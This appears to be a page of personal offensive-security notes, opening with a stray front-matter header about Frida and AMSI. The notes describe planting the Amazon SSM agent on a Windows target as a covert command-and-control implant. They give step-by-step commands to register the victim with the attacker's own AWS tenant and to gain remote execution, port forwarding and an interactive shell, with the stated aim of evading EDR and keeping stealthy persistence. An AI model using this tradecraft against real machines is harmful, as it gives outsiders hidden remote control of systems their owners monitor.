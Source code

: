```yaml
---
title: Frida vs. AMSI
description: Let's use Frida to explore all the different ways we can patch or break the Anti-Malware Scan Interface.
---
```


# Using Amazon SSM as a C2 implant (Windows)

From my personal notes. Communication with the AWS API is often ignored by EDR, and the SSM agent is a legitimate utility that has a business use case in many environments. Using standard enterprise tooling instead of signature C2 frameworks is a great way to maintain stealthy persistence in a heavily monitored environment.

Step 1: Clone from [https://github.com/aws/amazon-ssm-agent](https://github.com/aws/amazon-ssm-agent) and build for Windows.  
Step 2: Transfer all binaries from appropriate release folder to target machine. Put them in `C:\Program Files\Amazon\SSM\` as admin.  
Step 3: Log into the AWS console for your own tenant. Navigate to Systems Manager, and from there to *Hybrid Activations*.  
Step 4: Create a new hybrid activation. Record the activation code and ID.  

Step 5: If required, set proxy information on the target machine:

```powershell
set http_proxy=http://hostname:port
set https_proxy=http://hostname:port
```

Step 6: Using a local administrator account, register the target machine with AWS:

```powershell
.\amazon-ssm-agent.exe -region "<region>" -id "<activation id>" -code "<activation code>" -register
```

Step 7: Invoke the agent as a local administrator:

```powershell
.\amazon-ssm-agent.exe
```

You can now invoke run documents remotely on the machine as long as the agent is running. For example, to set up port forwarding:

```sh
aws ssm start-session --target <instance-id> --document-name AWS-StartPortForwardingSession --parameters '{"portNumber":["80"],"localPortNumber":["9999"]}'
```

If you want to use the interactive session manager shell (Windows Server only), go to [https://github.com/rprichard/winpty/](https://github.com/rprichard/winpty/) and download the latest release. Then transfer `winpty.dll` and `winpty-agent.exe` to:

- `C:\Program Files\Amazon\SSM\Plugins\SessionManagerShell\`
